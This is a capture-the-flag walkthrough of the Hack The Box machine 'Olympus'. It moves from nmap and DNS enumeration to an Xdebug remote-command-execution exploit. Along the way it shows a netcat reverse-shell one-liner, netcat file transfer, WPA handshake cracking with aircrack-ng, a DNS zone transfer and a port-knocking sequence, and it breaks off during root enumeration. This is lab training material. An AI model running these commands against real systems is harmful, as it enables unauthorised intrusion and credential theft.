

---
search:
  exclude: true
---
# Olympus Writeup

## Introduction :

Olympus is a Medium linux box released back in April 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -F 10.10.10.83
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 08:18 GMT
      Nmap scan report for 10.10.10.83
      Host is up (0.080s latency).
      Not shown: 97 closed ports
      PORT   STATE    SERVICE
      22/tcp filtered ssh
      53/tcp open     domain
      80/tcp open     http
    
      Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -sCV -p22,53,80 10.10.10.83
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 08:19 GMT
      Nmap scan report for 10.10.10.83
      Host is up (0.081s latency).
    
      PORT   STATE    SERVICE VERSION
      22/tcp filtered ssh
      53/tcp open     domain  (unknown banner: Bind)
      | dns-nsid:
      |_  bind.version: Bind
      | fingerprint-strings:
      |   DNSVersionBindReqTCP:
      |     version
      |     bind
      |_    Bind
      80/tcp open     http    Apache httpd
      |_http-server-header: Apache
      |_http-title: Crete island - Olympus HTB
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port53-TCP:V=7.80%I=7%D=3/18%Time=5E71D995%P=x86_64-pc-linux-gnu%r(DNSV
      SF:ersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
      SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0\x0c\
      SF:0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 27.77 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → dirsearch -u http://10.10.10.83 -t 50 -e txt,html,php,xml -x 403
      git clone https://github.com/maurosoria/dirsearch.git
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, html, php, xml | HTTP method: get | Threads: 50 | Wordlist size: 7124
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-18_08-20-40.log
    
      Target: http://10.10.10.83
    
      [08:20:40] Starting:
      [08:20:57] 200 -   66KB - /favicon.ico
      [08:20:59] 200 -  314B  - /index.php
      [08:20:59] 200 -  314B  - /index.php/login/
    
    

Let's investigate both index.php and index.php/login :

We seem to get an image on /index.php so let's download it and try to see if there's any steganography involved: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → file zeus.jpg
      zeus.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, progressive, precision 8, 480x640, components 3
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → exiftool zeus.jpg
      ExifTool Version Number         : 11.91
      File Name                       : zeus.jpg
      Directory                       : .
      File Size                       : 36 kB
      File Modification Date/Time     : 2018:04:07 00:53:19+01:00
      File Access Date/Time           : 2020:03:18 08:29:59+00:00
      File Inode Change Date/Time     : 2020:03:18 08:29:31+00:00
      File Permissions                : rw-r--r--
      File Type                       : JPEG
      File Type Extension             : jpg
      MIME Type                       : image/jpeg
      JFIF Version                    : 1.01
      Resolution Unit                 : inches
      X Resolution                    : 300
      Y Resolution                    : 300
      Image Width                     : 480
      Image Height                    : 640
      Encoding Process                : Progressive DCT, Huffman coding
      Bits Per Sample                 : 8
      Color Components                : 3
      Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
      Image Size                      : 480x640
      Megapixels                      : 0.307
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → steghide extract -sf zeus.jpg
      Enter passphrase:
      steghide: could not extract any data with that passphrase!
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → strings zeus.jpg
    
    

Doesn't seem like we get anything too obvious, and by using the strings command we don't seem to find anything either, so let's continue by investigating the dns service running on port 53: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → dig axfr @10.10.10.83 olympus.htb
    
      ; <<****>> DiG 9.11.16-2-Debian <<****>> axfr @10.10.10.83 olympus.htb
      ; (1 server found)
      ;; global options: +cmd
      ; Transfer failed.
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → dig @10.10.10.83 olympus.htb
    
      ; <<****>> DiG 9.11.16-2-Debian <<****>> @10.10.10.83 olympus.htb
      ; (1 server found)
      ;; global options: +cmd
      ;; Got answer:
      ;; ->>HEADER <<****- opcode: QUERY, status: SERVFAIL, id: 5749
      ;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
    
      ;; OPT PSEUDOSECTION:
      ; EDNS: version: 0, flags:; udp: 4096
      ;; QUESTION SECTION:
      ;olympus.htb.			IN	A
    
      ;; Query time: 75 msec
      ;; SERVER: 10.10.10.83#53(10.10.10.83)
      ;; WHEN: Wed Mar 18 08:34:17 GMT 2020
      ;; MSG SIZE  rcvd: 40

And we seem to get a domain name ! olympus.htb seems to be the one, so let's add it to our /etc/hosts file. 
    
    
      λ root [ 10.10.14.11/23 ] [/home/nihilist]
      → echo '10.10.10.83 olympus.htb' >> /etc/hosts
    

Now that's done, let's dirsearch the box once again, but this time with the domain name that we added: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → dirsearch -u http://olympus.htb -t 50 -e txt,html,php,xml -x 403
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, html, php, xml | HTTP method: get | Threads: 50 | Wordlist size: 7124
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-18_08-36-49.log
    
      Target: http://olympus.htb
    
      [08:36:49] Starting:
      [08:37:05] 200 -   66KB - /favicon.ico
      [08:37:07] 200 -  314B  - /index.php
      [08:37:07] 200 -  314B  - /index.php/login/
    
    

To which we get the same results: 

    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → ls
      zeus.jpg
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → wget http://olympus.htb/zeus.jpg -O zeus2.jpg
      --2020-03-18 08:40:59--  http://olympus.htb/zeus.jpg
      Resolving olympus.htb (olympus.htb)... 10.10.10.83
      Connecting to olympus.htb (olympus.htb)|10.10.10.83|:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 37144 (36K) [image/jpeg]
      Saving to: ‘zeus2.jpg’
    
      zeus2.jpg           100%[===================>]  36.27K   209KB/s    in 0.2s
    
      2020-03-18 08:40:59 (209 KB/s) - ‘zeus2.jpg’ saved [37144/37144]
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → md5sum zeus.jpg && md5sum zeus2.jpg
      a9e247b275edb0140a8b507fdd21e7ab  zeus.jpg
      a9e247b275edb0140a8b507fdd21e7ab  zeus2.jpg
    

By downloading the image from olympus.htb, and by using md5sum we see that both images are exactly the same, so let's use nikto to try and see if there's anything else we can find on the webserver. and while it runs, we check out the response headers from the webpage itself : Firefox > F12 > Network > Response Headers

Into which we (nikto aswell) see something odd : Xdebug 2.5.5 so let's do a quick searchsploit on it to see if there are any public exploits for us to use:
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → searchsploit Xdebug 2
      ------------------------------------------- ----------------------------------------
       Exploit Title                             |  Path
                                                 | (/usr/share/exploitdb/)
      ------------------------------------------- ----------------------------------------
      xdebug < 2.5.5 - OS Command Execution (Met | exploits/php/remote/44568.rb
      ------------------------------------------- ----------------------------------------
      Shellcodes: No Result
      Papers: No Result
    

Here we see that we have a OS Command Execution Metasploit exploit, so let's check it out: 
    
    
      msf5 > search xdebug
    
      Matching Modules
      ================
    
         #  Name                                  Disclosure Date  Rank       Check  Description
         -  ----                                  ---------------  ----       -----  -----------
         0  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution
    
    
      msf5 > use 0
      msf5 exploit(unix/http/xdebug_unauth_exec) > show options
    
      Module options (exploit/unix/http/xdebug_unauth_exec):
    
         Name     Current Setting  Required  Description
         ----     ---------------  --------  -----------
         PATH     /index.php       yes       Path to target webapp
         Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
         RPORT    80               yes       The target port (TCP)
         SRVHOST  0.0.0.0          yes       Callback host for accepting connections
         SRVPORT  9000             yes       Port to listen for the debugger
         SSL      false            no        Negotiate SSL/TLS for outgoing connections
         VHOST                     no        HTTP server virtual host
    
    
      Payload options (php/meterpreter/reverse_tcp):
    
         Name   Current Setting  Required  Description
         ----   ---------------  --------  -----------
         LHOST                   yes       The listen address (an interface may be specified)
         LPORT  4444             yes       The listen port
    
    
      Exploit target:
    
         Id  Name
         --  ----
         0   Automatic
    

Metasploit has it with it's options, but let's see if we can make our own by copying the script locally and by making a python version: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → locate 44568.rb
      /usr/share/exploitdb/exploits/php/remote/44568.rb
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → cp /usr/share/exploitdb/exploits/php/remote/44568.rb .
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → nano 44568.rb
    

So we make the correct python script following the logic behind metasploit's exploit we found earlier 

And from here we simply use the system() function to pass in our reverse shell one liner pointing at our port 9001: 
    
    
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 9001 >/tmp/f')
    

` 

And we get a reverse shell as www-data ! Now we don't have access to any user flag right away, but in the /home/zeus directory we seem to have access to an airgeddon directory, so let's check it out: 
    
    
      $ ls -lash
      total 12K
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 .
      4.0K drwxr-xr-x 1 root root 4.0K Apr  8  2018 ..
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 airgeddon
      $ ls -lash airgeddon
      total 1.1M
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 .
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 ..
      4.0K -rw-r--r-- 1 zeus zeus  264 Apr  8  2018 .editorconfig
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 .git
      4.0K -rw-r--r-- 1 zeus zeus  230 Apr  8  2018 .gitattributes
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 .github
      4.0K -rw-r--r-- 1 zeus zeus   89 Apr  8  2018 .gitignore
       16K -rw-r--r-- 1 zeus zeus  16K Apr  8  2018 CHANGELOG.md
      4.0K -rw-r--r-- 1 zeus zeus 3.2K Apr  8  2018 CODE_OF_CONDUCT.md
      8.0K -rw-r--r-- 1 zeus zeus 6.3K Apr  8  2018 CONTRIBUTING.md
      4.0K -rw-r--r-- 1 zeus zeus 3.3K Apr  8  2018 Dockerfile
       36K -rw-r--r-- 1 zeus zeus  35K Apr  8  2018 LICENSE.md
      8.0K -rw-r--r-- 1 zeus zeus 4.4K Apr  8  2018 README.md
      292K -rw-r--r-- 1 zeus zeus 291K Apr  8  2018 airgeddon.sh
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 binaries
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 captured
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 imgs
       16K -rw-r--r-- 1 zeus zeus  16K Apr  8  2018 known_pins.db
      672K -rw-r--r-- 1 zeus zeus 670K Apr  8  2018 language_strings.sh
      4.0K -rw-r--r-- 1 zeus zeus   33 Apr  8  2018 pindb_checksum.txt
    

In it we see the captured directory, so let's check what's in it: 
    
    
      $ cd captured
      $ ls -lash
      total 304K
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 .
      4.0K drwxr-xr-x 1 zeus zeus 4.0K Apr  8  2018 ..
      292K -rw-r--r-- 1 zeus zeus 291K Apr  8  2018 captured.cap
      4.0K -rw-r--r-- 1 zeus zeus   57 Apr  8  2018 papyrus.txt
    
      $ cat papyrus.txt
      Captured while flying. I'll banish him to Olympia - Zeus
    
      $ file captured.cap
      captured.cap: tcpdump capture file (little-endian) - version 2.4 (802.11, capture length 65535)
    
    

Now we seem to have a riddle here, trying to find "Olympia", and we have a captured.cap file which is a tcpdump capture file v2.4 so let's send it over to our machine: 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → nc -lvnp 9002 > captured.cap
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9002
      Ncat: Listening on 0.0.0.0:9002
    

` _Terminal 2:_
    
    
    $ cat captured.cap | nc 10.10.14.11 9002
    

` _Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → nc -lvnp 9002 > captured.cap
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9002
      Ncat: Listening on 0.0.0.0:9002
      Ncat: Connection from 10.10.10.83.
      Ncat: Connection from 10.10.10.83:55836.
    
    

And we verify that we have the same file by using md5sum: 

And we have the same file ! so let's use aircrack-ng to see if what's in this captured.cap file. 
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
    → aircrack-ng captured.cap
    Reading packets, please wait...
    Opening captured.cap
    Read 6498 packets.
    
       #  BSSID              ESSID                     Encryption
    
       1  F4:EC:38:AB:A8:A9  Too_cl0se_to_th3_Sun      WPA (1 handshake)
    
    Choosing first network as target.
    
    Reading packets, please wait...
    Opening captured.cap
    Read 6498 packets.
    
    1 potential targets
    
    Please specify a dictionary (option -w).
    

And we get a password ! so let's use rockyou.txt to see if we can bruteforce the key using aircrack-ng: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → aircrack-ng -e 'Too_cl0se_to_th3_Sun' -w /usr/share/wordlists/rockyou.txt captured.cap
    
      Time left: 17 minutes, 7 seconds                          54.02%
    
                              KEY FOUND! [ flightoficarus ]
    
    
            Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A
                             88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48
    
            Transient Key  : 46 7D FD D8 1A E5 1A 98 50 C8 DD 13 26 E7 32 7C
                             DE E7 77 4E 83 03 D9 24 74 81 30 84 AD AD F8 10
                             21 62 1F 60 15 02 0C 5C 1C 84 60 FA 34 DE C0 4F
                             35 F6 4F 03 A2 0F 8F 6F 5E 20 05 27 E1 73 E0 73
    
            EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
    

And we found the key ! We now have a few words that might come handy 
    
    
      icarus
      Too_cl0se_to_th3_Sun
      flightoficarus
      zeus
    

Now since our nmap scan returned a filtered ssh service running on port 22 we run another nmap scan to see where we could potentially use those credentials: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → nmap -F 10.10.10.83 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:34 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.067s latency).
      Not shown: 8316 closed ports
      PORT     STATE    SERVICE
      22/tcp   filtered ssh
      53/tcp   open     domain
      80/tcp   open     http
      2222/tcp open     EtherNetIP-1
    
      Nmap done: 1 IP address (1 host up) scanned in 7.46 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → nmap -sCV -p2222 10.10.10.83
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:35 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.067s latency).
    
      PORT     STATE SERVICE VERSION
      2222/tcp open  ssh     (protocol 2.0)
      | fingerprint-strings:
      |   NULL:
      |_    SSH-2.0-City of olympia
      | ssh-hostkey:
      |   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
      |   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
      |_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port2222-TCP:V=7.80%I=7%D=3/18%Time=5E71EB4D%P=x86_64-pc-linux-gnu%r(NU
      SF:LL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20\r\n");
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
    
    

And here we see another port opened with SSH on it ! So we try to login as the user we guessed was icarus with his password : Too_cl0se_to_th3_Sun 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → ssh -p 2222 icarus@10.10.10.83
      The authenticity of host '[10.10.10.83]:2222 ([10.10.10.83]:2222)' can't be established.
      ECDSA key fingerprint is SHA256:uyZtmsYFq/Ac58+SEgLsL+NK05LlH2qwp2EXB1DxlO4.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '[10.10.10.83]:2222' (ECDSA) to the list of known hosts.
      icarus@10.10.10.83's password:
    
      Last login: Sun Apr 15 16:44:40 2018 from 10.10.14.4
      icarus@620b296204a3:~$ id
      uid=1000(icarus) gid=1000(icarus) groups=1000(icarus)
      icarus@620b296204a3:~$ cat user.txt
      cat: user.txt: No such file or directory
      icarus@620b296204a3:~$ ls
      help_of_the_gods.txt
      icarus@620b296204a3:~$ cat help_of_the_gods.txt
    
      Athena goddess will guide you through the dark...
    
      Way to Rhodes...
      ctfolympus.htb
    
    

and we get a shell session as icarus ! Although we still need to find the user flag, being hinted yet again with a riddle about the Athena goddess and most importantly the domain name ctfolympus.htb so let's use dig just like before to enumerate this domainname:
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → dig axfr @10.10.10.83 ctfolympus.htb
    
      ; <<>> DiG 9.11.16-2-Debian <<>> axfr @10.10.10.83 ctfolympus.htb
      ; (1 server found)
      ;; global options: +cmd
      ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
      ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
      ctfolympus.htb.		86400	IN	A	192.168.0.120
      ctfolympus.htb.		86400	IN	NS	ns1.ctfolympus.htb.
      ctfolympus.htb.		86400	IN	NS	ns2.ctfolympus.htb.
      ctfolympus.htb.		86400	IN	MX	10 mail.ctfolympus.htb.
      crete.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
      hades.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
      mail.ctfolympus.htb.	86400	IN	A	192.168.0.120
      ns1.ctfolympus.htb.	86400	IN	A	192.168.0.120
      ns2.ctfolympus.htb.	86400	IN	A	192.168.0.120
      rhodes.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
      RhodesColossus.ctfolympus.htb. 86400 IN	TXT	"Here lies the great Colossus of Rhodes"
      www.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
      ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
      ;; Query time: 76 msec
      ;; SERVER: 10.10.10.83#53(10.10.10.83)
      ;; WHEN: Wed Mar 18 09:39:57 GMT 2020
      ;; XFR size: 15 records (messages 1, bytes 475)
    

From here we see that we have quite a few of subdomains to work with, along with a riddle mentionning "Prometheus opening a portal to Hades (3456 8234 62431) and St34l_th3_F1re!" So maybe we have credentials, but before that let's list every subdomain we found before adding them to our /etc/hosts file:
    
    
      echo '10.10.10.83 ctfolympus.htb'
    
    
    
      crete.ctfolympus.htb
      hades.ctfolympus.htb
      mail.ctfolympus.htb
      ns1.ctfolympus.htb
      ns2.ctfolympus.htb
      rhodes.ctfolympus.htb
      RhodesColossus.ctfolympus.htb
      www.ctfolympus.htb
      ctfolympus.htb
    
    
    
      echo '10.10.10.83 ctfolympus.htb'
    

We try to ssh as the user prometheus with his assumed password St34l_th3_F1re :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → ssh prometheus@10.10.10.83 -p2222
      prometheus@10.10.10.83's password:
      Permission denied, please try again.
      prometheus@10.10.10.83's password:
      Permission denied, please try again.
      prometheus@10.10.10.83's password:
      prometheus@10.10.10.83: Permission denied (publickey,password).
    
    
    
      icarus@620b296204a3:~$ cat /etc/passwd | grep prometheus
      icarus@620b296204a3:~$
    

We can't ssh on port 2222 as the user prometheus, because he isn't even an user on the box, so assuming from the hades riddle, we can assume that it is about port knocking just like on the box [Nineveh](10.md): 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → for x in 3456 8234 62431 22; do nmap -Pn --max-retries 0 -p $x 10.10.10.83; done
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:52 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.065s latency).
    
      PORT     STATE  SERVICE
      3456/tcp closed vat
    
      Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:52 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.062s latency).
    
      PORT     STATE  SERVICE
      8234/tcp closed unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:52 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.060s latency).
    
      PORT      STATE  SERVICE
      62431/tcp closed unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:52 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.067s latency).
    
      PORT   STATE SERVICE
      22/tcp open  ssh
    
      Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
    

And there we have it ! we have been able to open port 22 by knocking on the 3 aforementionned ports so let's try to ssh as the user prometheus: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Olympus]
      → for x in 3456 8234 62431; do nmap -Pn --max-retries 0 -p $x 10.10.10.83; done ;sshpass -p 'St34l_th3_F1re!' ssh -oStrictHostKeyChecking=no prometheus@10.10.10.83
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:55 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.065s latency).
    
      PORT     STATE  SERVICE
      3456/tcp closed vat
    
      Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:55 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.064s latency).
    
      PORT     STATE  SERVICE
      8234/tcp closed unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 09:55 GMT
      Nmap scan report for olympus.htb (10.10.10.83)
      Host is up (0.070s latency).
    
      PORT      STATE  SERVICE
      62431/tcp closed unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
      Warning: Permanently added '10.10.10.83' (ECDSA) to the list of known hosts.
    
      Welcome to
    
          )         (
       ( /(     )   )\ )   (
       )\()) ( /(  (()/(  ))\ (
      ((_)\  )(_))  ((_))/((_))\
      | |(_)((_)_   _| |(_)) ((_)
      | ' \ / _` |/ _` |/ -_)(_-<
      |_||_|\__,_|\__,_|\___|/__/
    
      prometheus@olympus:~$ cat user.txt
      8aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now that we are on the box let's enumerate it a bit :
    
    
      prometheus@olympus:~$ sudo -l
    
      We trust you have received the usual lecture from the local System
      Administrator. It usually boils down to these three things:
    
          #1) Respect the privacy of others.
          #2) Think before you type.
          #3) With great power comes great responsibility.
    
      [sudo] password for prometheus:
      Sorry, user prometheus may not run sudo on olympus.
      prometheus@olympus:~$ netstat -alvnp | grep LISTEN
    

Doesn't seem that we can run sudo -l as usual so we try to see what's running on the machine by using ps -auxw 
    
    
      prometheus@olympus:~$ ps auxw
      USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
      root         1  0.0  0.3  56992  6812 ?        Ss   Mar17   0:01 /sbin/init
      [...]
      root       276  0.0  0.2  51236  5540 ?        Ss   Mar17   0:00 /lib/systemd/systemd-journald
      root       279  0.0  0.5 207504 10556 ?        Ssl  Mar17   0:27 /usr/bin/vmtoolsd
      root       280  0.0  0.0      0     0 ?        S    Mar17   0:00 [kauditd]
      root       293  0.0  0.2  46828  5004 ?        Ss   Mar17   0:00 /lib/systemd/systemd-udevd
      systemd+   359  0.0  0.1 127284  4052 ?        Ssl  Mar17   0:02 /lib/systemd/systemd-timesyncd
      root       365  0.0  0.0      0     0 ?        S   Mar17   0:00 [ttm_swap]
      root       438  0.0  0.1  29664  2868 ?        Ss   Mar17   0:00 /usr/sbin/cron -f
      root       439  0.0  0.1  35920  3292 ?        Ss   Mar17   0:01 /usr/sbin/irqbalance --foreground
      root       440  0.0  0.9 153488 18532 ?        Ss   Mar17   0:00 /usr/bin/VGAuthService
      message+   441  0.0  0.1  45120  3724 ?        Ss   Mar17   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
      root       456  0.0  0.1 250116  3304 ?        Ssl  Mar17   0:00 /usr/sbin/rsyslogd -n
      root       457  0.0  0.2  46420  4804 ?        Ss   Mar17   0:00 /lib/systemd/systemd-logind
      root       562  0.0  0.1   8572  3876 ?        Ss   Mar17   0:00 /usr/sbin/knockd -i enp0s3
      root       565  0.1  3.1 585408 65468 ?        Ssl  Mar17   0:59 /usr/bin/dockerd -H fd://
      root       570  0.0  0.0  14536  1780 tty1     Ss+  Mar17   0:00 /sbin/agetty --noclear tty1 linux
      root       580  0.0  0.2  69944  5452 ?        Ss   Mar17   0:00 /usr/sbin/sshd -D
      root       591  0.0  1.1 400308 23004 ?        Ssl  Mar17   0:41 docker-containerd --config /var/run/docker/containerd/containerd.toml
      root       983  0.0  0.1  51488  3600 ?        Sl   Mar17   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 53 -container-ip 172.18.0.2 -container-port 53
      root       989  0.0  0.1  51488  3708 ?        Sl   Mar17   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 172.20.0.2 -container-port 80
      root      1004  0.0  0.2 206028  5704 ?        Sl   Mar17   0:03 /usr/bin/docker-proxy -proto udp -host-ip 0.0.0.0 -host-port 53 -container-ip 172.18.0.2 -container-port 53
